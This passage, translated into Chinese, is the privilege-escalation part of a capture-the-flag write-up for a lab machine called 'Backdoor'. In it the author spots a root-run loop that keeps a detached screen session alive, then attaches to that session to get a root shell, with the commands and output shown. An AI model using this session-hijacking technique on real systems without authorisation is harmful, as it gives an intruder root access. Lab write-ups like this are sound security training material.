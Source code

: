# 权限提升

通往根的道路很简单，但前提是你要早点注意。当我们远程扫描机器上运行的进程时，我们看到了以下内容:

```
/proc/814/cmdline/proc/814/cmdline/proc/814/cmdline/bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
```

这表明 screen 正在运行一个名为 root 的分离会话。所以可以很有把握地假设，我们只需要连接到那个屏幕就可以得到我们的根 shell。

[这个](https://linux.die.net/man/1/screen)解释了什么是屏幕及其使用的参数，这些是我们可以看到正在使用的参数:

```
-d -m Start screen in "detached" mode. This creates a new session but doesn't attach to it. This is useful for system startup scripts.
-S sessionname
```

这很好也很简单:

```
user@Backdoor:~$ /usr/bin/screen -x root/root
/usr/bin/screen -x root/root
Please set a terminal type.
```

请设置终端，然后再试一次:

```
user@Backdoor:~$ export TERM=xterm
export TERM=xterm
user@Backdoor:~$ /usr/bin/screen -x root/root
/usr/bin/screen -x root/root
root@Backdoor:~#
```

# 根标志

好了，让我们抓住根旗:

```
root@Backdoor:~# id
uid=0(root) gid=0(root) groups=0(root)

root@Backdoor:~# ls -l
-rw-r--r-- 1 root root 33 Dec  9 23:17 root.txt

root@Backdoor:~# cat root.txt
<HIDDEN>
```

完成了。下次见。

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 4 月 26 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-backdoor)*。*